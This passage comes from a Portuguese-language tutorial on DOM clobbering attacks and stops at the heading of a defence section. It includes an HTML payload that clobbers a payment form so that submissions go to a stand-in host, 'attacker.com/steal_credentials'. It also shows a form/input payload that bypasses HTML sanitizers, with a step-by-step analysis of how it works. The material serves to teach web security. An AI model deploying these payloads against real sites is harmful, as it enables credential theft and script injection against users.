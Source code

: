 Um invasor pode *clobber* a variável `window.payment_form`. Se ele puder injetar o seguinte HTML:

```html
<form id="payment_form" action="https://attacker.com/steal_credentials" method="POST">
  <input name="amount" value="9999">
</form>
```

Quando a função `submitPayment` for chamada, ela irá operar no formulário malicioso do invasor. O *script* pode até mesmo adicionar o *token* CSRF legítimo ao formulário do invasor, mas isso não importa, pois o formulário será submetido ao domínio do invasor, não ao servidor da aplicação. O ataque não quebra a criptografia do *token*, mas sim desvia a lógica do cliente que deveria usá-lo para proteger a requisição.

#### *Bypass* de Lógica de Segurança (*Sanitizer Bypass*)

Como visto brevemente na Parte I, o DOM Clobbering é uma ferramenta excepcional para contornar a lógica de segurança do lado do cliente, como os sanitizadores de HTML.

**Mecanismo de Ataque:**

Muitos sanitizadores de cliente funcionam percorrendo a árvore do DOM de uma *string* de HTML "suja" e removendo elementos ou atributos perigosos. Essa lógica depende fundamentalmente da integridade das APIs do DOM que ela utiliza para a travessia e manipulação, como `element.attributes`, `element.children`, `node.removeChild()`, etc.

**Payload de Exploração:**

```html
<form onclick="alert('Sanitizer Bypassed!')">
  <input id="attributes">
</form>
```

**Análise do *Bypass*:**

1. O sanitizador recebe o HTML e o analisa em uma árvore do DOM.
2. Ele encontra o elemento `<form>` e, como `<form>` é geralmente permitido, ele prossegue para verificar seus atributos.
3. A lógica do sanitizador tenta iterar sobre a coleção de atributos do formulário acessando a propriedade `form.attributes`.
4. No entanto, esta propriedade foi *clobbered* pelo elemento `<input>` aninhado com `id="attributes"`.
5. O sanitizador agora tenta iterar sobre o elemento `<input>` em vez da coleção de atributos real. Um elemento de *input* não tem uma propriedade `.length` da mesma forma que uma coleção, ou a iteração sobre ele não funciona como o esperado.
6. O loop de sanitização falha ou é pulado, e o atributo `onclick` malicioso no elemento `<form>` nunca é removido.
7. O HTML "limpo" é retornado com o *payload* intacto, pronto para ser acionado por uma interação do usuário.

Este tipo de ataque é particularmente insidioso porque a vulnerabilidade não está no sanitizador em si, mas na interação imprevista entre o sanitizador e o comportamento de *clobbering* do DOM.

## Parte IV: Estratégias de Defesa em Profundidade
